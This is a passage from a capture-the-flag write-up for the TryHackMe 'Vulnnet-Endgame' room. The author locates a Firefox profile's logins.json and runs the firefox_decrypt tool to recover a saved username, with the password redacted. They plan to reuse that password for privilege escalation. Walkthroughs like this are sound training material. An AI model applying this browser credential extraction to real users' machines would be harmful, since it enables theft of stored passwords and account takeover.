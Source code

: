 ```
┌──(root🌸siunam)-[~/…/home/system/.mozilla/firefox]
└─# ls -lah               
total 36K
drwxr-xr-x  7 root root 4.0K Jun 14 13:21  .
drwxr-xr-x  4 root root 4.0K Jun 14 11:56  ..
drwxr-xr-x 13 root root 4.0K Jun 14 10:43  2fjnrwth.default-release
drwxr-xr-x  2 root root 4.0K Jun 14 11:56  2o9vd4oi.default
drwxr-xr-x 13 root root 4.0K Jun 14 13:37  8mk7ix79.default-release
drwxr-xr-x  3 root root 4.0K Jun 14 11:56 'Crash Reports'
-rwxr-xr-x  1 root root   62 Jun 14 11:56  installs.ini
drwxr-xr-x  2 root root 4.0K Jun 14 11:56 'Pending Pings'
-rwxr-xr-x  1 root root  259 Jun 14 11:56  profiles.ini
```

Let's look at one of the directories:

```
┌──(root🌸siunam)-[~/…/system/.mozilla/firefox/2fjnrwth.default-release]
└─# ls -lah 
[...]
-rwxr-xr-x  1 root root  658 Jun 14 10:43 logins.json
[...]
```

Accroding to one of the [Mozilla FireFox support posts](https://support.mozilla.org/en-US/questions/1352064), **the `logins.json` holds the encrypted login credentials.**

To decrypt it, I'll:

- Clone [Firefox Decrypt](https://github.com/unode/firefox_decrypt) repository from GitHub:

```
┌──(root🌸siunam)-[/opt]
└─# git clone https://github.com/unode/firefox_decrypt.git
```

- Decrypt the `login.json` via `firefox_decrypt.py`:

```
┌──(root🌸siunam)-[~/…/home/system/.mozilla/firefox]
└─# python3 /opt/firefox_decrypt/firefox_decrypt.py /root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release 
2022-09-13 00:56:23,056 - WARNING - profile.ini not found in /root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release
2022-09-13 00:56:23,057 - WARNING - Continuing and assuming '/root/ctf/thm/ctf/Vulnnet-Endgame/home/system/.mozilla/firefox/2fjnrwth.default-release' is a profile location

Website:   https://tryhackme.com
Username: 'chris_w@vulnnet.thm'
Password: '{Redacted}'
```

Boom!! We found a credentials. Now, I assume that the `system` user on the target machine is **using the same password**.

Let's **Switch User** to `system`:
